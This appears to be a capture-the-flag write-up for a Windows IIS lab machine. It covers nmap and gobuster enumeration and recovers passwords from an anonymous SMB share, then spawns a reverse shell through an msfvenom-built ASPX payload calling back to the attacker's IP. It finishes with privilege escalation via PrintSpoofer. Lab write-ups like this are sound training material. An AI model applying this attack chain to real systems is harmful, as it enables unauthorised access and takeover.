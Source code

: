ENUMERATION:

Nmap all ports scan:

![image](https://user-images.githubusercontent.com/126739122/234123541-eb6ad5df-4058-4fb1-9332-bf923c24e51d.png)

Nmap aggressive scan on open ports:

![image](https://user-images.githubusercontent.com/126739122/234123560-9b18a4ff-91e9-4cd2-9ea3-222d6c14d640.png)

Browsed to http://10.10.15.212 and found the default IIS webpage:

![image](https://user-images.githubusercontent.com/126739122/234123642-cfcf6fea-8e5a-4832-bf38-2074cbe38cb2.png)

Ran gobuster on this webpage for any hidden directories
	- nothing was found with gobuster

Need to perform further enumeration to find some helpful information to get initial access

Checked for any public shared drives with smbclient:

![image](https://user-images.githubusercontent.com/126739122/234123653-a70a6c4b-5517-4f5b-ace1-b53781b9b7bc.png)

Successfully connected to 'nt4wrksv' shared drive anonymously
	- found passwords.txt file
		○ contains 2 base64 encoded strings
		○ decoded both strings and found passwords for both Bob and Bill

![image](https://user-images.githubusercontent.com/126739122/234123664-47d54891-0363-41e4-80c7-57b2c3a29d92.png)

Unable to use these creds for both Bob and Bill to log in via RDP to this machine
INITIAL FOOTHOLD:

Looking back at the aggressive Nmap scan shows that port 49663 is also hosting a webserver
Browsed to http://10.10.15.212:49663 and found the same default IIS webpage as on port 80

Decided to run gobuster on this new webpage
	- found /nt4wrksv directory

Browsed to http://10.10.15.212:49663/nt4wrksv/passwords.txt
	- confirmed this webpage is linked to the 'nt4wrksv' shared drive and can access all those files
	- this allows for a shell.aspx file to be uploaded to this shared drive and spawn a reverse shell

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.47.128 LPORT=6251 -f aspx -o shell.aspx

connected back to 'nt4wrksv' share anonymously and uploaded my shell.aspx file

Browsed to http://10.10.15.212:49663/nt4wrksv/shell.aspx
spawned a fully interactive reverse shell on this web server

PRIVILEGE ESCALATION:

Transferred over winPEASx64.exe from local machine to reverse shell
Ran winPEAS:

![image](https://user-images.githubusercontent.com/126739122/234123682-facf8beb-9604-485a-a5d2-cdf63e3e4946.png)

currently connected to reverse shell as "IIS APPPOOL\DefaultAppPool" user account
This user account has SeImpersonatePrivilege
	- vulnerable to PrintSpoofer exploit for privilege escalation

uploaded PrintSpoofer64.exe file from local machine to reverse shell

![image](https://user-images.githubusercontent.com/126739122/234123691-74b7c9be-71bf-4726-a011-1e4da1aaebf2.png)

FOUND BOTH USER AND ROOT FLAGS
